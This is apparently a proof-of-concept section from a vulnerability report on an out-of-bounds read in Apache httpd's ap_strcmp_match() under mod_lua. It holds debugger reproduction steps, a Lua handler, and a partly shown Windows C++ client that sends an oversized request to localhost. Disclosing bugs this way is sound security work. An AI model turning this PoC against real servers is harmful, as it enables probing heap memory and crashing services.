To use the POC:

   1. Build bug_client.cpp.
   2. Copy bug_47.7.1.lua into folder /bug47.7/bug47.7.1.lua .
   3. Start httpd (with LUA enabled), attach a debugger to it, and set a BP on ap_strcmp_match().
   4. Run bug_client.cpp.
   5. When the BP fires, step to line 196. Set a conditional breakpoint on this line for when x > `0x7fffffff` and proceed (this can take a long time, so you might instead try proceeding then quickly breaking execution and checking the value of |x|, iterating until it's reasonable to set the conditional breakpoint).
   6. When the conditional BP fires, observe that line 196 references |str-0x80000000|, as does line 198. Step several more times and watch the code march upward toward |str|. On a busy system, these locations are likely to contain heap data. On an idle system they could be inaccessible.

[1] The attacker cannot retrieve that matching strings, only determine whether they exist.
[2] The same bug also exists in ap_strcasecmp_match().

```
-------- bug47.7.1.lua ----------------------------------------------------
function handle(r)
   local s=r:requestbody()
   local m=r.strcmp_match(s, "*secret*")
   if m then
      r:puts("Found a 'secret'")
   end
end
-------- bug47.7.1.lua ----------------------------------------------------
```
```
-------- bug_client.cpp ----------------------------------------------------
#define DO_BUG_47_7

#undef UNICODE

#define WIN32_LEAN_AND_MEAN
#define _CRT_SECURE_NO_WARNINGS

#include <windows.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>
#include <stdio.h>

#pragma comment (lib, "Ws2_32.lib")
#pragma warning (disable:6262)
constexpr char SERVER_NAME[] = "127.0.0.1";

void FillBuffer(
    const char *pInput,
    char *pOutput,
    size_t numOutputBytes) {

    char *pEnd = pOutput + numOutputBytes;
    size_t inlen = strlen(pInput);
    while (pOutput < pEnd) {
        size_t numBytes = min(inlen, static_cast <size_t> (pEnd - pOutput));
        memcpy(pOutput, pInput, numBytes);
        pOutput += inlen;
    }
}

int ConnectSocket(const addrinfo* pAddrInfo, SOCKET* pSocket) {
    int iResult;
    *pSocket = socket(pAddrInfo->ai_family, pAddrInfo->ai_socktype, pAddrInfo->ai_protocol);
    if (*pSocket == INVALID_SOCKET) {
```